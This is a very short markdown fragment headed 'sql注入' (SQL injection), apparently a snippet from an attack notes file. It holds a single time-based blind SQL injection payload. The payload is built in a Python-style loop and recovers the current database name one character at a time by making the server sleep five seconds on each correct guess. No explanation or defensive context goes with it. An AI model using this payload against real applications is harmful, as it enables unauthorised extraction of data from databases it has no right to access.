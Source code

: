 ## sql注入
```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```
